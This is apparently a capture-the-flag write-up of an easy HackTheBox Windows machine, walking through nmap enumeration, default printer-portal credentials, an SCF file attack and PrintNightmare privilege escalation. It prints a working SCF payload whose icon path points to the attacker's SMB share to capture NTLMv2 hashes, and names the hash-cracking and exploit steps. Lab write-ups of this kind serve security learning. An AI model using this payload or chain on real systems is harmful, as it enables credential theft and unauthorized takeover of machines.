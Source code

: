 ```yaml
---
title: Active -- Writeup
date: 2022-03-28
categories: [HackTheBox, Easy]
tags: [hackthebox, ctf, scf, adf, printnightmare]
img_path: /assets/img/hackthebox/active/     # TAG names should always be lowercase
---
```


# Summary -
Easy rated Windows machine from Hackthebox. Pretty fun... Have to use scf attacks for initial access and then printnightmare for privilege escalation.

# Enumeration -
nmap, here we go...
### nmap -
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-16 09:42 EST
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 89.98% done; ETC: 09:44 (0:00:12 remaining)
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.73% done; ETC: 09:44 (0:00:00 remaining)
Nmap scan report for 10.10.11.106
Host is up (0.077s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|10|7|2016|Vista (90%), FreeBSD 6.X (86%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_10 cpe:/o:freebsd:freebsd:6.2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (90%), Microsoft Windows 10 1511 - 1607 (87%), FreeBSD 6.2-RELEASE (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%), Microsoft Windows 7 (85%), Microsoft Windows 7 Professional or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (85%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-01-16T21:44:17
|_  start_date: 2022-01-16T19:29:27
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   82.39 ms 10.10.14.1
2   82.42 ms 10.10.11.106

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.78 seconds
```

Couple of ports are open. The one we might find interesting are port 80 http and port 5985 winrm.
Nmap says there is some login portal on port 80.

![nmap](1.png)

After one quick search for default creds, I got it right away which are **admin:admin**. Also, this is some kind of printer page... So, maybe printnightmare? Let's try...

![printnightmare](3.png)

And it is indeed vulnerable to printnightmare but we need initial access to use it. So, let's continue with the creds we found...

Let's login and check what's in there. Looks like we can upload files and the team on the box will do some testing...
Tried a couple of things but no luck then came accross srf attacks. Let's try to do srf attack and see if we can get some connection back.

```srf
[Shell]
Command=2
IconFile=\\10.10.14.111\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

[srf_attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-files)

And yeah, we got connection back to responder with ntlmv2 hash. Let's try to crack it using hashcat.

![hashcat](2.png)

Cool, we got creds for tony which are **tony:\<redacted\>**.

Let's login as tony using evil-winrm.

# Post Exploitation -
Remember, we tried to check it for printnightmare and indeed it is vulnerable. So, let's exploit it.

Let's grab that exploit, transfer it to victim and get root.

![invoke-nightmare](4.png)
_[cve-2021-34527](https://github.com/JohnHammond/CVE-2021-34527)_

Let's try winrm as our new local admin user.

![admin](5.png)

And we owned this. :D
